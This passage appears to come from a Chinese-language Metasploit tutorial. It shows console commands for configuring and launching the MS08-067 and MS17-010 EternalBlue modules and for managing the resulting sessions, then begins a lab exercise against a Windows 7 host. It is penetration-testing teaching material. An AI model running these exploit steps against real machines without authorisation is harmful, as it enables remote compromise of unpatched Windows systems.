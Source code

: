（4）参考文档
::: center
![img](https://typora-img-1301299232.cos.ap-shanghai.myqcloud.com/img/202305101320189.png)
:::

### 6.show命令

show命令可以查看模块的相关信息

```shell
# 查看模块的选项
msf5 exploit(windows/smb/ms08_067_netapi) > show options

# 查看可以攻击哪些操作系统
msf5 exploit(windows/smb/ms08_067_netapi) > show targets

# 设置攻击地址参数
msf5 exploit(windows/smb/ms08_067_netapi) > set RHOST 192.168.1.54

# 查看设置的值
msf5 exploit(windows/smb/ms08_067_netapi) > show options 
```

配置好了之后我们输入 exploit 或 run 就可以执行该模块。

### 7.exploit命令

```shell
# -j 表示后台执行,渗透目标完成后会创建一个 session 我们可以通过 session 连接目标主机。
msf5 exploit(windows/smb/ms17_010_eternalblue) > exploit -j

# 查看会话详细信息
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions

# 通过会话 Id 进入会话
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions -i 4

# 退出会话将会话保存到后台
C:\Windows\system32>background

# 根据会话 Id 结束会话
msf5 exploit(windows/smb/ms17_010_eternalblue) > sessions -k 4
```

## 实践1：使用 msf 渗透攻击 Win7 主机并远程执行命令

### 1.概述

攻击机器：kali Linux（IP:192.168.2.16）

被攻击机器：windows 7专业版（IP:192.168.2.173）

利用漏洞：ms17-010漏洞
